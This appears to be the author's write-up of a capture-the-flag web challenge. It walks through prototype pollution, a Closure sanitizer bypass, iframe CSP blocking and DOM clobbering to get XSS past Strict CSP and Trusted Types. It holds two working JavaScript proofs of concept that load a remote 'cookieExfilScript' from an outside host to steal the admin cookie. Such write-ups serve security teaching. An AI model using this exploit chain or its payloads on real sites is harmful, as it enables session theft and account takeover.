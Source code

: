 # Biohazard

## Objective

Find XSS in the [Bio+ site](https://biohazard-web.2023.ctfcompetition.com), and use it to steal the admin cookie (i.e. flag).

## Purpose of the challenge

Given [Strict CSP](https://www.w3.org/TR/CSP3/#strict-csp) and [Trusted Types](https://www.w3.org/TR/trusted-types/) enforcement, I wanted to make a challenge which is still vulnerable to XSS.
To mimic commonly used setup at Google, I've used [Closure Library](https://github.com/google/closure-library) and [safevalues](https://github.com/google/safevalues) which are both open sourced.
I've introduced a few vulnerabilities such as [Prototype Pollution](https://portswigger.net/web-security/prototype-pollution) and HTML injection. And I've also exposed several exploitation/bypass primitives such as [DOM clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering) (through HTML injection) and [use of template](https://github.com/shhnjk/shhnjk.github.io/blob/main/thoughts/digesting-the-concept-of-trusted-types.md#template-gadget).
The hope was to maximize the potential of unintended solutions, so that all of us can learn something out of this challenge.

## Intended solution

### Prototype Pollution

`Object.assign` is usually not vulnerable to Prototype Pollution, such as the following.

```js
Object.assign({}, JSON.parse('{"__proto__":{"polluted": true}}'));
console.log(Object.prototype.polluted); // undefined
```

However, it is vulnerable when `Object.prototype` is passed in the first argument.

```js
Object.assign(({})['__proto__'], JSON.parse('{"polluted": true}'));
console.log(Object.prototype.polluted); // true
```

And `main.js` has the same vulnerability.

```js
interestObj = {"favorites":{}};
const uuid = viewPath[1];
const xhr = new XMLHttpRequest();
xhr.addEventListener("load", () => {
  if (xhr.status === 200) {
    const json = JSON.parse(xhr.response);
    for (const key of Object.keys(json)) {
      if (interestObj[key] === undefined) {
        interestObj[key] = json[key];
      } else{
        Object.assign(interestObj[key], json[key]);
      }
    }
  } else {
    alert(xhr.response);
    location.href = '/';
  }
});
xhr.open('GET', `/bio/${uuid}`, false);
xhr.send();
```

Therefore, if you send a JSON request which contains `__proto__` key to the `/create` endpoint, you can cause Prototype Pollution in the bio page.

```js
fetch('/create', {
  method:'POST',
  headers: {
    "Content-Type": "application/json",
  },
  body: `{"name":"test","introduction":"","favorites":{"hobbies":"","sports":""}, "__proto__": {"polluted": true}}`
});
```

### Closure sanitizer bypass

To render user supplied HTML in bio introduction, the challenge uses [Closure sanitizer](https://google.github.io/closure-library/api/goog.html.sanitizer.HtmlSanitizer.html). And because [Closure sanitizer can be bypassed with Prototype Pollution](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/#:~:text=my%20challenge.-,Closure,-Closure%20Sanitizer%20has), now you can inject arbitrary attributes in the bio HTML.

However, this does not lead to XSS, as the bio page has Strict CSP and Trusted Types enforced.

### Reviving XSS Auditor primitive

Now that we have Prototype Pollution and HTML injection (with arbitrary attribute control) in hand, what should we do?

In `bootstrap.js`, the `editor` variable looks suspicious.

```js
if (!location.pathname.startsWith('/view/')) {
  ...
  editor = (x=>x)`/static/editor.js`;
}
```

This `editor` variable is used in `main.js` to include an additional script.

```js
import {trustedResourceUrl} from 'safevalues';
import {safeScriptEl} from 'safevalues/dom';

...
function loadEditorResources() {
  ...
  const script = document.createElement('script');
  safeScriptEl.setSrc(script, trustedResourceUrl(editor));
  document.body.appendChild(script);
}

window.addEventListener('DOMContentLoaded', () => {
  render();
  if (!location.pathname.startsWith('/view/')) {
    loadEditorResources();
  }
});
```

If we can overwrite the `editor` variable, we can trigger an XSS!

If you take a look at the Closure sanitizer config, you will notice that `<iframe>` is specifically allowed.

```js
var Const = goog.string.Const;
var unsafe = goog.html.sanitizer.unsafe;
var builder = new goog.html.sanitizer.HtmlSanitizer.Builder();
builder = unsafe.alsoAllowTags(
    Const.from('IFRAME is required for Youtube embed'), builder, ['IFRAME']);
sanitizer = unsafe.alsoAllowAttributes(
    Const.from('iframe#src is required for Youtube embed'), builder,
    [
      {
      tagName: 'iframe',
      attributeName: 'src',
      policy: (s) => s.startsWith('https://') ? s : '',
      }
    ]).build();
```

You can use the `csp` attribute in iframe to block certain resources inside iframe (using CSP), if the page inside iframe is same-origin as parent (similar to the [XSS Auditor](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection#:~:text=This%20code%20is,unsafe%20debug%20code.) primitive). Therefore, you can block `bootstrap.js` from loading.

```html
<iframe src="https://biohazard-web.2023.ctfcompetition.com/view/[bio_id]" csp="script-src https://biohazard-web.2023.ctfcompetition.com/static/closure-library/ https://biohazard-web.2023.ctfcompetition.com/static/sanitizer.js https://biohazard-web.2023.ctfcompetition.com/static/main.js 'unsafe-inline' 'unsafe-eval'"></iframe>
```

### Defining `editor`

Since the `editor` variable is undefined inside the iframe, we just need to define it. There are 2 ways of doing this.

1. Use HTML injection to define `editor` using DOM clobbering.
2. Use Prototype Pollution to define `editor`.

Note that since the `editor` script will be only loaded outside of `/view/` path, the iframe has to point to something else, such as `/views/view/`. This is possible because the challenge is an SPA and always configured to load the main page no matter what the URL is.

Here are the PoCs for creating XSS bio, by running script in the challenge page.

DOM clobbering:

```js
// https://biohazard-web.2023.ctfcompetition.com
const challengeOrigin = window.origin;
const cookieExfilScript = 'https://attack.shhnjk.com/alert.js';

const firstResponse = await fetch('/create', {
  method:'POST',
  headers: {
    "Content-Type": "application/json",
  },
  body: `{"name":"test","introduction":"<a id=editor href=${cookieExfilScript}></a><a id=editor></a>","favorites":{"hobbies":"","sports":""}, "__proto__": {"* ID": true}}`
});
const firstBio = await firstResponse.json();

const secondResponse = await fetch('/create', {
  method:'POST',
  headers: {
    "Content-Type": "application/json",
  },
  body: `{"name":"test","introduction":"<iframe src=\\"${challengeOrigin}/views/view/${firstBio.id}\\" csp=\\"script-src ${cookieExfilScript} ${challengeOrigin}/static/closure-library/ ${challengeOrigin}/static/sanitizer.js ${challengeOrigin}/static/main.js 'unsafe-inline' 'unsafe-eval'\\"></iframe>","favorites":{"hobbies":"","sports":""}, "__proto__": {"* CSP": true}}`
});
const secondBio = await secondResponse.json();

location.href = `/view/${secondBio.id}`;
```

Prototype Pollution:

```js
// https://biohazard-web.2023.ctfcompetition.com
const challengeOrigin = window.origin;
const cookieExfilScript = 'https://attack.shhnjk.com/alert.js';

const firstResponse = await fetch('/create', {
  method:'POST',
  headers: {
    "Content-Type": "application/json",
  },
  body: `{"name":"test","introduction":"","favorites":{"hobbies":"","sports":""}, "__proto__": {"editor": ["${cookieExfilScript}"]}}`
});
const firstBio = await firstResponse.json();

const secondResponse = await fetch('/create', {
  method:'POST',
  headers: {
    "Content-Type": "application/json",
  },
  body: `{"name":"test","introduction":"<iframe src=\\"${challengeOrigin}/views/view/${firstBio.id}\\" csp=\\"script-src ${cookieExfilScript} ${challengeOrigin}/static/closure-library/ ${challengeOrigin}/static/sanitizer.js ${challengeOrigin}/static/main.js 'unsafe-inline' 'unsafe-eval'\\"></iframe>","favorites":{"hobbies":"","sports":""}, "__proto__": {"* CSP": true}}`
});
const secondBio = await secondResponse.json();

location.href=`/view/${secondBio.id}`;
```

Hope you enjoyed it!
